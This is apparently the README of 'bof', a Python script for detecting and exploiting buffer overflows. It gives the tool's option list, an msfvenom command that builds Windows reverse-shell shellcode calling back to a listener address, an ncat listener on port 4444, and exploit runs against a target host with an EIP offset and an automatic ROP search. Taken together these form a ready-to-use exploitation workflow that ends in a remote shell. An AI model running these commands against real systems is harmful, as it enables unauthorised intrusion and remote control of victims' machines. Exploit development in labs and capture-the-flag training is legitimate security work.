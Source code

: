 # bof

Simple tool to detect and exploit buffer overflows.

<img src="https://raw.githubusercontent.com/sudoaza/bof/main/images/bof.svg" alt="bof Buffer Overflow exploitation script usage" width="960" />

## Usage

    usage: bof.py [-h] [-H HOST] [-p PORT] -o OFFSET [-e EIP] [-b BIN] [-s SIZE] [-sf SUFFIX] [-pf PREFIX] [-a ARCH] [-O OS] [-d] [-v]

Exploit buffer overflows.

    options:
      -h, --help            show this help message and exit
      -H HOST, --host HOST  Target host
      -p PORT, --port PORT  Target port
      -o OFFSET, --offset OFFSET
                            EIP offset
      -e EIP, --eip EIP     Value to overwrite EIP with or ROP chain. Ie. 0x01010101,0x02020202,0x03030303
      -b BIN, --bin BIN     Target binary to extract gadgets from. Only ELF!!
      -s SIZE, --size SIZE  Payload size
      -sf SUFFIX, --suffix SUFFIX
                            Payload suffix, Ie. \n
      -pf PREFIX, --prefix PREFIX
                            Payload prefix, Ie. USER
      -a ARCH, --arch ARCH  Target architecture. x86 / amd64
      -O OS, --os OS        Target OS. windows / linux
      -d, --dry             Dry run. Print would be paylad.
      -v, --debug           Show debug information

Create custom shellcode and save to shellcode.py
(must be formatted buf = b'\x90\x90\x90\x90...')

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f python -a x86 -b "\x00\x09\x0a\x0d\xff" > shellcode.py

Listen for shell

    ncat -lvp 4444

Run exploit

    ./exploit.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -e '0x080414c3'

Run by passing a binary and search for a JPM ESP ROP automatically

    ./bof.py -H 10.10.76.237 -p 31337 --sf $'\n' -o 146 -b ./vuln

## Install

    git clone git@github.com:sudoaza/bof.git
    cd bof
    pip install -r requirements.txt
